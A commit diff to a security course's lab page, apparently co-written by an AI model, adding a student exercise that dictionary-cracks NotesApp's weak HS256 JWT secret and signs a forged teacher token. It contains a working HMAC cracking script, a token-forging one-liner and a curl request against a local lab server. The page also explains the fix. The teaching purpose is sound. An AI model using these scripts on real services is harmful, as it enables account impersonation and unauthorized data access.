

Before and after one commit to KristenPire/epita-security-labs, an MkDocs documentation site: the page built from docs/class6/forge-a-token.md, in a window 1280 px wide and 1400 px high, scrolled down 2728 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 4061 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Class 6 exercise Part 2: crack the weak HS256 secret, sign a real token
Adds the second half of NotesApp flaw #4: rejecting alg:none is not
enough while the secret is guessable. Students dictionary-crack s3cr3t
from a wordlist and sign a genuine teacher token. Verified live.

Co-Authored-By: Claude Opus 5 <noreply@anthropic.com>

````diff
--- a/docs/class6/forge-a-token.md
+++ b/docs/class6/forge-a-token.md
@@ -1,8 +1,9 @@
 # Exercise — Forge a token: become a teacher
 
 **Your job:** make NotesApp believe you are a teacher, and read a grade that is not yours —
-**without a password and without any key.** You only *break* it today. You fix it next class.
-About 18 minutes, with your pair.
+**without a password and without any key.** Two ways in: Part 1 skips the signature; Part 2 cracks
+the secret behind it. You only *break* it today. You fix it next class. About 25 minutes, with
+your pair.
 
 Work inside your `notesapp/` clone. Every command assumes you are in that folder.
 
@@ -142,15 +143,95 @@ curl -H "Authorization: Bearer $FORGED" http://localhost:8080/api/notes/3
 
 ---
 
+## Part 2 — "But I'll just reject `none`!" — not enough
+
+Suppose the server is fixed to **reject `alg:none`**. Your blank-signature trick now fails. Are
+you safe?
+
+!!! question "Predict first — commit with your pair"
+    The server now demands a **real HS256 signature**. To sign, you need its secret key — and you
+    don't have it. **Can you still forge a teacher token?** Yes or no, and why?
+
+The signature is only as strong as the **secret** behind it. NotesApp signs with the word
+`s3cr3t` — eight characters. A short secret can be **guessed** from a list of common ones. If you
+guess it, you can sign a token that looks completely genuine.
+
+### Step 5 — Crack the secret
+
+You already have alice's **real** token from Step 1 (three parts, properly signed). Its signature
+was made from `header.payload` + the secret. Try each word in a list until one produces the same
+signature — that word **is** the secret.
+
+Download the wordlist: [`jwt-secrets.txt`](assets/jwt-secrets.txt) (save it next to your clone),
+then:
+
+```bash
+python3 - <<'PY'
+import hmac, hashlib, base64
+tok = "PASTE_ALICE_REAL_TOKEN_FROM_STEP_1"
+head_payload = ".".join(tok.split(".")[:2])
+target_sig   = tok.split(".")[2]
+def b64(b): return base64.urlsafe_b64encode(b).rstrip(b"=").decode()
+
+for word in open("jwt-secrets.txt").read().split():
+    sig = b64(hmac.new(word.encode(), head_payload.encode(), hashlib.sha256).digest())
+    if sig == target_sig:
+        print("CRACKED — the secret is:", repr(word))
+        break
+else:
+    print("not in the list")
+PY
+```
+
+!!! success "📏 Record"
+    - What is NotesApp's signing secret? ________  (expected: `s3cr3t`)
+    - It is a **real dictionary word in leetspeak**. How long would a random 32-character key take
+      to guess this way? (Think about it — this is why fix #3 is "long *and* random".)
+
+### Step 6 — Sign a *genuine* teacher token
+
+Now you hold the secret. Sign a brand-new teacher token — a real HS256 signature, not a blank
+one. This passes even a server that rejects `alg:none`.
+
+```bash
+SIGNED=$(python3 -c "import json,hmac,hashlib,base64
+b=lambda x: base64.urlsafe_b64encode(x).rstrip(b'=').decode()
+secret='s3cr3t'
+h=b(json.dumps({'alg':'HS256','typ':'JWT'}).encode())
+p=b(json.dumps({'user_id':9999,'username':'attacker','role':'teacher'}).encode())
+s=b(hmac.new(secret.encode(), f'{h}.{p}'.encode(), hashlib.sha256).digest())
+print(f'{h}.{p}.{s}')")
+curl -H "Authorization: Bearer $SIGNED" http://localhost:8080/api/notes/3
+```
+
+!!! success "📏 Record — what came back?"
+    - Did the **signed** forged token work? ________
+    - This token has a valid signature. Would "reject `alg:none`" have stopped it? ________ (no)
+
+??? question "Done? The lesson both halves add up to"
+    ??? success "The answer"
+        `alg:none` and a weak secret are **two different holes**, and closing one leaves the
+        other open:
+
+        - Reject `none` → stops the blank-signature forgery (Part 1).
+        - …but a guessable secret still lets an attacker make a **genuinely signed** token
+          (Part 2).
+
+        That is why the real fix is **all three** at once: reject `none`, pin the algorithm, **and**
+        use a long random secret. Miss any one, and a forged teacher walks in.
+
+---
+
 ## What you hand in
 
-Three lines. This is the finding:
+Four lines. This is the finding:
 
 ```
 FORGED-TOKEN FINDING — NotesApp flaw #4 (auth)
   What I read:   bob's grade (____) and comment, via /api/notes/3
-  How:           a JWT with "alg":"none" and no signature; role set to "teacher"
-  Why it worked: the server let the TOKEN choose how to verify, and I chose "don't"
+  Break 1:       a JWT with "alg":"none" and no signature; role set to "teacher"
+  Break 2:       cracked the HS256 secret (____) from a wordlist; signed a real teacher token
+  Why it worked: the server let the TOKEN choose how to verify, AND its secret was guessable
 ```
 
 ---
````
Also changed, not shown: docs/class6/assets/jwt-secrets.txt (added, +15 -0 lines).
